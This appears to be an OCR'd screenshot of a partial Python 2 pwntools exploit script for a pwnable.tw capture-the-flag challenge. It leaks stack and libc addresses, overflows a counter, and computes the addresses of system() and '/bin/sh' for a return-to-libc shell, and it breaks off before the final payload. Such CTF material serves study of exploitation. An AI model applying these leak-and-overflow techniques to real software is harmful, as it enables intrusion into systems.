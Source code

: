     else:
        io = remote("chall.pwnable.tw", 10204)
        libc = ELF('./libc_32.so.6')
>>
    def enter(name,age,reason,comment):
        io.recvuntil('name: ')
        io.send(name)
        # sleep(0.01)
        io.recvuntil('age: ')
        io.sendline(str(age))
        # sleep(0.01)
        io.recvuntil('movie? ')
        io.send(reason)
        # sleep(0.01)
        io.recvuntil('comment: ')
        io.send(comment)
        # pause()
        # sleep(0.01)
>>
    # leak the ebp address and get the libc base
    gdb.attach(io, 'b * 0x804870a')
    enter('a' * 60, 0x11223344, 'b' * 80, 'c' * 60)
    ebp = u32(io.recvuntil('\xff')[-4: ])
    print '*****************'
    print 'ebp -> ' + hex(ebp)
    libcBase = u32(io.recvuntil('\xf7')[-4: ]) - libc.sym['_IO_2_1_stdout_']
    print 'libcbase -> ' + hex(libcBase)
    print '*****************'
>>
    # make the cnt to 100 to overflow
    for i in range(100):
        io.sendafter('<y/n>: ', 'y')
        enter('a' * 60, 0x11223344, 'b' * 80, 'c' * 60)
        sleep(0.02)
        print i
    # overflow the string to sprintf, and the n60 will be ord('n') = 110
    context.log_level = 'debug'
    sys_addr = libcBase + libc.sym['system']
    binsh = libcBase + next(libc.search('/bin/sh'))
    print 'sysaddress -> ' + hex(sys_addr)
    print 'binsh -> ' + hex(binsh)
    raw_input()
>>
    print 'cover the address of [name]'
    sleep(0.5)
    io.sendafter('<y/n>: ', 'y')
    # name = 'a' * 60